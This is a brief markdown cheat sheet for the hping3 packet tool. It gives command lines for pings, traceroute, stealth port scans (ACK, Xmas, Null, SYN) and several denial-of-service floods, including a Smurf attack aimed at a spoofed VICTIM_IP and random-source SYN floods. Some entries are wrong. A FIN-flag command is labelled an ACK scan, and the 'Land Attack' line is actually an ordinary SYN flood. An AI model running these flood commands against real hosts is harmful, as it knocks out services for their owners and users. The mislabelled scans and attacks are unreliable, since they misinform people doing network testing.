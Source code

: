 # Hping 
     * Supports TCP,UDP,ICMP
     * Firewall testing
     * Port scnning
     * Remote OS fingerprinting
     * Dos attacks

| Command   | Use   |
| ------------ | ------------ |
|hping3 -S 192.168.10.15 -p 80 -c 3   |ping   |
|hping3 -1 172.16.1.2   |normal ping utility, sending ICMP-echo und receiving ICMP-reply   |
|hping3 --traceroute -V -1 172.16.1.2   |similar to famous utilities like tracert (windows) or traceroute (linux)   |
|hping3 -V -S -p 80 -s 5050 172.16.1.2   |send a Syn packet to a specified port 80   |
|hping3 -c 1 -V -1 -C 17 172.16.1.2   |sends a ICMP address mask request ( Type 17 )   |
|hping3 -c 1 -V -p 80 -s 5050 -F 172.16.1.2   |Ack Scan: This scan can be used to see if a host is alive (when Ping is blocked for example). This should send a RST response back if the port is open   |
|hping3 -c 1 -V -p 80 -s 5050 -M 0 -UPF 172.16.1.2   |Xmas Scan: This scan sets the sequence number to zero and set the URG + PSH + FIN flags in the packet. If the target device's TCP port is closed, the target device sends a TCP RST packet in reply. If the target device's TCP port is open, the target discards the TCP Xmas scan, sending no reply   |
|hping3 -c 1 -V -p 80 -s 5050 -Y 172.16.1.2   |Null Scan: This scan sets the sequence number to zero and have no flags set in the packet. If the target device's TCP port is closed, the target device sends a TCP RST packet in reply. If the target device's TCP port is open, the target discards the TCP NULL scan, sending no reply   |
|hping3 -1 --flood -a VICTIM_IP BROADCAST_ADDRESS   |Smurf Attack: This is a type of denial-of-service attack that floods a target system via spoofed broadcast ping messages   |
|hping3 -V -c 1000000 -d 120 -S -w 64 -p 445 -s 445 --flood --rand-source 172.16.1.2   |DOS Land Attack   |
|hping3 --flood -S -V --rand-source 172.16.1.2   |DDOS attck (SYN)   |
|hping3 --scan 0-500 -S 172.16.1.2   |port scan (SYN)   |
|hping3 --scan 0-500 -X 172.16.1.2   |port scan (Xmas)   |


-     --flood: sent packets as fast as possible. Don't show replies.
-     --rand-dest: random destionation address mode. see the man.
-     -V <-- Verbose
-     -c --count: packet count
-     -d --data: data size
-     -S --syn: set SYN flag
-     -w --win: winsize (default 64)
-     -p --destport [+][+]<port> destination port(default 0) ctrl+z inc/dec
-     -s --baseport: base source port (default random) 

